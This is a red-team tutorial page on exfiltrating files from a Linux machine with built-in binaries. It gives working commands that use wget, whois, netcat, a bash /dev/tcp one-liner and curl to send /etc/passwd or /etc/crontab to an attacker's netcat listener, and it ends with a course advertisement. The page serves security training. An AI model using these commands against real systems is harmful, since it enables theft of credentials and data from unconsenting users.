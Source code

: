:orphan:
(data-exfiltration-with-the-help-of-linux-binaries)=
# Data Exfiltration with the Help of Linux Binaries
 
Data exfiltration is theft or unauthorized removal or movement of data from a device. Data exfiltration is a means of bypassing security and gaining unauthorized access to data on a user's system or a server. Attackers gain unauthorized access to critical data and sneakily make a copy of it. Data exfiltration can be carried out in a variety of ways, with the primary goal of stealing data.

Linux binaries are file on a Linux system that isn't a text file, which includes everything from system commands and libraries to image files and compiled programs. `/bin` directory contains binaries for all the users and it also has executable files, and Linux commands such as cat, cp, ls, cd, etc. 
For the demonstration purpose, we will use two systems to exfiltrate data, one posing as an attacker and the other as a victim.

## Wget 

wget is a free application for non-interactively downloading files from a web server, even if the user is not logged in to the system.

Wget get can be used to upload a file and send it to the attacker machine over ``HTTP POST``. 
On the victim machine, send a local file with an ``HTTP POST``. 
`wget --post-file=<file-path-> <ip_address>`

![DE_1.png](images/DE_1.png)

On the attacker machine, to get the file, Netcat is used as a listener, 
`nc -nlvp 80 `
`Note: to open up port 80 you would need higher privileges`

![DE_2.png](images/DE_2.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/crontab` can be seen on the attacker machine.

## Whois 

Whois is the request and response protocol that is commonly used for querying databases containing the registered users of an Internet resource such as domain name or IP address.
Whois binary can be used to upload a file and send it to the attacker's machine over a TCP connection. 

On the victim machine, enter the file to upload, the victim's IP address, and the remote port for file transfer. 
```
whois -h <remote_IP_address> -p <remote_port> `cat  /etc/passwd`
-h connect to server
-p connect to port 
```
![DE_3.png](images/DE_3.png)

On the attacker machine, to get the file, Netcat is used as a listener, 
`nc -nlvp 1337 `

![DE_4.png](images/DE_4.png)

Data exfiltration is successful, the contents of the file /etc/passwd with all the users can be seen on the attacker's machine

## Netcat 

netcat is a computer networking program that allows you to read and write to network connections through TCP or UDP. 

On the victim’s machine set up the netcat by specifying the IP address and port and file to be sent. 
`Nc -N <IP_address> < <file path >`

![DE_5.png](images/DE_5.png)

On the attacker's machine set up the netcat to listen for the file by specifying the port to listen on. 

`Nc -lvp 1337 > <file_to_be_sent>`

![DE_6.png](images/DE_6.png)

## Bash 

It is a command language and Unix shell. bash binary can be used to upload files invisibly and deliver the file to the attacker system via `HTTP POST`.

On the victim machine, the following `bash -c` command can be used for data exfiltration. 
`bash -c 'echo -e "POST / HTTP/0.9\n\n$(</etc/passwd)" > /dev/tcp/<listener_IP>/<listener_port>’`

![DE_7.png](images/DE_7.png)

On the attacker machine, parrot Linux is used that uses netcat for listening for the connection. 

![DE_8.png](images/DE_8.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/passwd` can be seen on the attacker machine.

## Curl 

curl is a command-line utility that allows data to be transferred across many network protocols. The curl binary can be used to upload a file and deliver it to the attacker's system over an `HTTP POST` connection. 
On the victim machine, the following curl command can be used to exfiltrate the data. 
```
curl -F 'file=@/etc/passwd' http://<attacker_ip:attacker_port>/

curl -F is an argument that allows binary file uploading and forces the content type to be a multipart message. 
```
![DE_9.png](images/DE_9.png)

On the attacker machine, parrot Linux is used that uses netcat for listening for the connection on port 80. 

![DE_10.png](images/DE_10.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/crontab` can be seen on the attacker machine.

## Conclusion: 

Data exfiltration is a key step for a red teamer or attacker, and knowing how to use Linux binaries for data exfiltration can enable you transfer data with less possibility of discovery and without the need to install any external tools for data exfiltration.

:::{seealso}
Looking to expand your knowledge of red teaming? Check out our online course, [MRT - Certified Red Teamer](https://www.mosse-institute.com/certifications/mrt-certified-red-teamer.html)
::: In this course, you'll learn about the different aspects of red teaming and how to put them into practice.**